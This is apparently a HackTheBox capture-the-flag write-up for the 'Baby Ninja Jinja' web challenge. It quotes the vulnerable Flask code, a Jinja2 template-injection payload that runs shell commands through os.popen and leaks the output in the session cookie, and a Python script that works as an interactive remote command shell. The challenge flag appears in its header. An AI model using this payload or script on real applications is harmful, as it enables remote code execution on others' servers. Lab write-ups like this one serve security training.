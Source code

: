 ```yaml
---
description: Baby Ninja Jinja challenge from HackTheBox write up.
password: HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}
---
```


# Baby Ninja Jinja

## Initial enumeration

The page shows a little box to enter your "ninja" name and after that it just ask you to wait for approval. Using Gobuster, we can find two new locations in the site: `/console` and `/debug`. The first one is a Python console that asks for a password we don't have and the second shows the application code.

## Checking the code

Looking around it is obvious that the page is vulnerable to SSTI, what is awesome to get potencial RCE (It is also vulnerable to SQL injection but I will focus in the SSTI):

```python
def born2pwn(*args, **kwargs):

    name = request.args.get('name', '')

    if name:
        query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

        report = render_template_string(acc_tmpl.
            replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
            replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
        )

        if session.get('leader'): 
            return report

        return render_template('welcome.jinja2')
    return func(*args, **kwargs)
```

As we can see, after inserting our input in the database, it would just take it back and use it to render a template without sanitizing the content we control. Just one thing, the database is filtering some characters and expressions:

```python
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db
```

So, we can't use `{{` for our SSTI. Using `{%` in the input field will throw a syntax error but using `{{` will just work as any other input. Also, make sure to not use `'`, `"`, `<` or `>` because the application is encoding them and won't work as expected in the payloads.

Looking at the `born2pwn` function a bit more, looks like if a cookie session exists with a key named `leader`, the application will show the page for an authenticated user. This could be cool because the page would print our payload as our name (Executing our template code), but since we have to use statements with the `{%  %}` delimiters, we can't really print anything to the page.

## Exploiting the SSTI

Right now we can't see the output of our RCE what makes hard to know if we are really executing something. We can dump the RCE output into the session cookie and then decode it to check the result.

The payload to execute the `id` command would be:
```bash
<URL>?name={% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&key=leader&command=id
```
You can see that to avoid using strings, the payload adds some GET parameters to be able to set the dictionary key and the command to execute.

After requesting the page with the payload, we can get the session cookie and decode it with `flask-unsign` to check our RCE output:
```bash
┌──(kali㉿kali)-[~]
└─$ flask-unsign --decode --cookie '.eJyrVspJTUxJLVKyqlZSSFKyUkoJz8kOCIk09AvxNfB2Ny2LzLXMTg3OTo8ywirurVRbCwDoPBX1.YaKRYA.KYAop-Z0Z7-YE86IhrjIfW8DMNo'
{'leader': b'uid=65534(nobody) gid=65534(nobody)\n'}
```

### Getting the flag

To make the process of executing commands easier I wrote a little Python script:
```python
#! /usr/bin/env python3

import requests
import flask_unsign


url = '<URL>/?name={% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&key=leader&command='

command = ''
while(command != 'exit'):
	command = input ('Command to inject: ')
	response = requests.get(f'{url}{command}')
	if(response.ok):
		encoded_cookie = response.cookies['session']
		decoded_cookie = flask_unsign.decode(encoded_cookie)
		command_output = decoded_cookie['leader'].decode()
		print(command_output)
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/baby ninja jinja]
└─$ ./rce.py
Command to inject: ls
app.py
flag_P54ed
schema.sql
static
templates

Command to inject: cat flag_P54ed
HTB{***}

Command to inject:
```

I tried to get a reverse shell but looks like something is blocking the conections (Maybe is just me being silly).
